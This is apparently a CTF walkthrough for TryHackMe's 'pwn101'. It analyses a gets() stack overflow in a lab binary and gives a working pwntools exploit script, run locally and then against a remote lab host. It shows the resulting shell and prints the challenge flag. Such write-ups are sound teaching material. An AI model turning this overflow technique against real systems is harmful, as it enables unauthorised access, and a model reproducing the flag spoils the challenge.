

# Challenge Name : pwn101

category : pwn

clue : This should give you a start: 'AAAAAAAAAAA'

# Approach

## File Protection

```
checksec --file=pwn101-1644307211706.pwn101

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE

Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   72 Symbols        No    0      1pwn101-1644307211706.pwn101
```

This file has no Canary enable.NX(Non Executable) is enable which is mean we cannot run shell code .PIE(Position-Independant Executable) is enable : change addresss every execution.

## File Analysis with cutter
Lets open up with cutter to see the code.

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn101-1644307211706.pwn101&
```
Let's take a look at main function.
we can see there are two variable

```
; var char *s @ stack - 0x48
; var uint64_t var_ch @ stack - 0xc
```

we can see gets function is used. When we try to look up at the man page for gets

```
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets 
```
```
 man gets 
```
```
BUGS
       Never  use  gets().   Because  it  is impossible to tell without knowing the data in advance how many characters
       gets() will read, and because gets() will continue to store characters past the end of the  buffer,  it  is  ex‐
       tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead
```

we can see that using this get function we can overflow our buffer

## Buffer Overflow

Our objective  is to overflow the buffer till it reach rbp - 4 and change it value to not equal 0x8f9

```
0x000008da      7 817dfc39050000         cmp     dword [rbp - 4], data.00000539 ; 0x539 ; compare two operands
0x000008e1      2 7516                   jne     0x8f9 ; jump short if not equal/not zero (zf=0)
```
So that is can jump to this code of block which has  call system which will open up the shell.
```
0x000008f9      7 488d3d18030000         lea     rdi, [rip + str.Thanks__Here_s_a_small_gift_for_you__3] ; 0xc18 ; load effective address; const char *s
0x00000900      5 e8abfdffff             call    puts ; sym.imp.puts ; calls a subroutine, push eip into the stack (esp) ; int puts(const char *s)
0x00000905      7 488d3d33030000         lea     rdi, [rip + str.bin_sh] ; 0xc3f ; load effective address; const char *string
0x0000090c      5 e8affdffff             call    system ; sym.imp.system ;
```

## Solution
```
0x000008c9      4 488d45c0               lea     rax, [rbp - 0x40] ; load effective address
0x000008cd      3 4889c7                 mov     rdi, rax ; moves data from src to dst; char *s
0x000008d0      5 b800000000             mov     eax, 0 ; moves data from src to dst
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets ; 
```

We have to remember that our write will go from lower to higher address.
from this we can see that buffer start at [rbp - 0x40] or stack - 48 . And the variable we want to rewrite is at rbp - 4 . Note that stack = rbp + 8.



## Writing python code

writing `exploit.py` 
```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

p = process()
p.recv()
p.sendline(payload)
p.interactive()
```

``` 
python3 exploit.py
```

and we get the shell

Lets do this remotely by first change the code a bit.

```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

#p = process()
p = remote("10.10.246.99",9001)
p.recv()
p.sendline(payload)
p.interactive()
```
```
python3 exploit.py
[*] '/home/kali/TryHackMe/pwn101/pwn101/pwn101-1644307211706.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.10.246.99 on port 9001: Done
[*] Switching to interactive mode

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
```
now we can accesss the shell . Lets check the list of file and read the flag.

```
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
```
